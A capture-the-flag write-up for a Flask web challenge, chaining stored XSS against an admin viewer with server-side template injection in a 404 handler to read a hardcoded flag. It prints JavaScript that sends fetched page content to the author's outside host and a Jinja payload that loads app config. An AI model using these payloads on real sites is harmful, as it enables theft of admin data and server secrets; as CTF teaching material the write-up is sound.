 ﻿## SBBS (Web, 250p)
	tl;dr use xss to get a 404 error page and then use template injection to get the flag

We're given the source code of a sever that uses flask. The flag is hardcoded into the source but it's not used anywhere, so we either have to steal the source files or somehow extract it from the program.

The site itself allows us to write posts, which are then viewed by the admin. XSS almost immediately comes to mind

A quick check: (You can grab the source code of /catch [here](https://gist.github.com/nazywam/5d164f1969491e2067f17b3c61329040))

```javascript
<script type="text/javascript">
window.open ('http://nazywam.xyz/catch?','_self',false)
</script>
```

Confirms it:

![scr1](scr1.png)

It's worth noticing, that this ip matches the ip of the service, so the admin can access the server locally.

However, we're not able to get the files using that, same-origin-policy prevents us from making a request for the same domain but using a different protocol like "file://"

It turns out, that the responses to error messages are vulnerable to a [template injection](http://blog.portswigger.net/2015/08/server-side-template-injection.html)

```python
@app.errorhandler(404)
def not_found(e=None):
    message = "%s was not found on the server." % request.url
    template_string = template % message
    return render_template_string(template_string, title=title_404), 404
```

We have almost complete control over request.url and can inject a template, like `{{ variable }}`

The problem is, `http://52.78.86.97:8080/somepagethatdoesntexist` returns nginx error pages instead of flask ones.

As it later turned out, flask used his error pages only for specified addresses, including 127.0.0.1 ;)

No problem! We use our xss to get the page as localhost:

```javascript
<script>
function hack(url, callback){
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function(){
        if (xmlhttp.readyState == 4){
			window.open ('http://nazywam.xyz/catch?'+xmlhttp.responseText,'_self',false)
        }
    }
    xmlhttp.open("GET", url, true);
    xmlhttp.send();
}

hack("/{{ FLAG }}")
 
</script>
```


Unfortunately, we can't acces FLAG directly but only [template globals](http://junxiandoc.readthedocs.io/en/latest/docs/python_flask/flask_template.html#global-variables-within-templates) and they don't have references to app class. 

The breakthrough was finding the function `config.from_object("admin.app")`, with it, we can finally access the app and then the flag.

Because `config.from_object()` only updates `config`, we have to print the flag separatly, so the final payload is:

`{{ config.from_object('admin.app') }} {{ config.FLAG }}`

![scr2](scr2.png)

###Congratz, to the author(s), that was a great chall! If only we got it 4 minutes earlier ;) ###
